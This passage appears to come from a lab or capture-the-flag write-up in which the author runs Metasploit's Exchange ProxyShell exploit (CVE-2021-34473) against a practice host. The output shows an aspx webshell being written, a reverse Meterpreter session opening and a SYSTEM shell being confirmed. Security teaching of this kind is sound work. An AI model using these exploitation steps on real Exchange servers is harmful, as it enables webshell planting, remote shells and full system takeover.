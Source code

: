 ```shell
RHOSTS => WIN-12OUO7A66M7.thm.local
msf6 exploit(windows/http/exchange_proxyshell_rce) > run

[*] Started reverse TCP handler on 10.8.70.81:4445 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-12ouo7a66m7.thm.local
[*] Assigning the 'Mailbox Import Export' role via dev-infrastracture-team@thm.local
[+] Successfully assigned the 'Mailbox Import Export' role
[+] Proceeding with SID: S-1-5-21-2402911436-1669601961-3356949615-1144 (dev-infrastracture-team@thm.local)
[*] Saving a draft email with subject 'IUuj3nex0ZU' containing the attachment with the embedded webshell
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\fUKoLOJ31rjK.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (200774 bytes) to 10.10.113.159
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\fUKoLOJ31rjK.aspx
[*] Meterpreter session 1 opened (10.8.70.81:4445 -> 10.10.113.159:18336) at 2023-05-16 16:33:59 +0800
[*] Removing the mailbox export request
[*] Removing the draft email

meterpreter > 
```

Nice! We have a Meterpreter session!

**Let's spawn a shell!**
```shell
meterpreter > shell
Process 15392 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami && ipconfig
whoami && ipconfig
nt authority\system

Windows IP Configuration


Ethernet adapter Ethernet 3:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::25cc:9c59:642e:f48c%8
   IPv4 Address. . . . . . . . . . . : 10.10.113.159
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1
```
